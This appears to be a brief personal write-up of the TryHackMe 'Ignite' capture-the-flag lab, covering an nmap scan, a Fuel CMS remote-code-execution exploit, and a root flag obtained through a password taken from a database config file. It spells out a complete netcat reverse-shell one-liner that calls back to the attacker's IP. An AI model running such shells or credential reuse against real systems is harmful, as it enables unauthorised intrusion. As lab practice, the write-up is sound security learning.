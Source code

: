 # TryHackMe Ignite

IP=10.10.122.235

nmap scan showed only one port open:
`80`

meaning there is a webpage there

Checking the webpage, it is obvious that it is a fuel cms website

`searchsploit fuel cms`

rce exploit for python2 was available and worked

created a reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.5.34 9999 >/tmp/f`

found the user flag at the home directory

Now the tricky part was getting the root flag. Initially I tried linpeas but that was extremely slow on this and I decided to skip that
I checked several proccesses if I could execute via root but not possible

then upon checking the site I saw it mentioned config files at a given directory

```
root
mememe
```
were in the database config file

and I found the root flag!
